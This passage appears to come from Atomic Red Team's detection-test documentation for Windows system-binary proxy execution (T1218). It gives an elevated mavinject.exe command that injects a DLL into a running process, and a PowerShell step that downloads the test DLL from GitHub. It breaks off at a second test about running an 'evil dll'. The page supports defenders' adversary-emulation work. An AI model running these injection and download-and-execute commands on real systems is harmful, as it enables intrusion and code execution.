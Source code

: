 - [Atomic Test #14 - Provlaunch.exe Executes Arbitrary Command via Registry Key](#atomic-test-14---provlaunchexe-executes-arbitrary-command-via-registry-key)

<br/>

## Atomic Test #1 - mavinject - Inject DLL into running process

Injects arbitrary DLL into running process specified by process ID. Requires Windows 10.

**Supported Platforms:** Windows

**auto_generated_guid:** c426dacf-575d-4937-8611-a148a86a5e61

#### Inputs:

| Name        | Description                        | Type   | Default Value                                               |
| ----------- | ---------------------------------- | ------ | ----------------------------------------------------------- |
| process_id  | PID of process receiving injection | string | 1000                                                        |
| dll_payload | DLL to inject                      | path   | PathToAtomicsFolder&#92;T1218&#92;src&#92;x64&#92;T1218.dll |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
mavinject.exe #{process_id} /INJECTRUNNING "#{dll_payload}"
```

#### Dependencies: Run with `powershell`!

##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #2 - Register-CimProvider - Execute evil dll

Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB
